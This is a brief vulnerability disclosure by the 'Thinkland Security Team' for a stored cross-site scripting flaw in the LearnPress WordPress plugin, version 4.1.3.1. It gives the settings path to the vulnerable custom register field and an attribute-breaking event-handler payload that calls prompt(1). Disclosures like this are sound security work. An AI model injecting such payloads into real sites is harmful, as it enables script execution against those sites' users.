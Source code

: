 # Exploit Title: LearnPress – WordPress LMS Plugin—— Stored Cross-Site Scripting
# Exploit Author: Thinkland Security Team
# Vendor Homepage: https://wordpress.org/plugins/learnpress/
# Version :  V 4.1.3.1
# Vulnerability Type: Stored Cross-Site Scripting
# Tested on Windows 10 、XAMPP
# Vulnerability proof：  
1. Settings》Profile》Custom register fields》Name,insert the xss payload "OnMoUsEoVeR=prompt(1)//
![image]()  